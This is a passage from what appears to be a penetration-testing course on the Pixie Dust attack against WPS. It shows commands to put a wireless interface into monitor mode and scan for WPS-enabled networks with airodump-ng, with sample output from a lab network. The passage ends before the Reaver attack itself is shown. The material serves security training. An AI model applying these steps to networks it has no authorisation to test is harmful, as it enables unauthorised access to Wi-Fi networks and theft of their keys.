 In the next section, we will explore how to employ Pixie Dust attacks to retrieve the PIN and WPA-PSK.


# The Pixie Dust Attack

* * *

The Pixie Dust Attack is a well-known method for exploiting vulnerabilities in the WPS (Wi-Fi Protected Setup) protocol, used to retrieve the WPA/WPA2 pre-shared key (PSK) from a target wireless network. The attack takes advantage of weaknesses in the WPS implementation, specifically the way some routers handle the WPS PIN verification process. There are numerous tools available for performing Pixie Dust attacks, but we will focus on two major ones: Reaver and Oneshot.

* * *

### Using Reaver

To perform a Pixie Dust attack with `Reaver`, we require a network interface running in monitor mode. We can create a new interface `mon0` and enable monitor mode using the following commands.

```shell
iw dev wlan0 interface add mon0 type monitor

ifconfig mon0 up

iwconfig

lo        no wireless extensions.

eth0      no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on

```

Once the interface is in monitor mode, we scan for available Wi-Fi networks with `airodump-ng`.

```shell
 airodump-ng mon0 --wps

 CH  3 ][ Elapsed: 1 min ][ 2024-06-16 19:32

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 86:FC:9F:5D:67:4E  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    HackMe

```
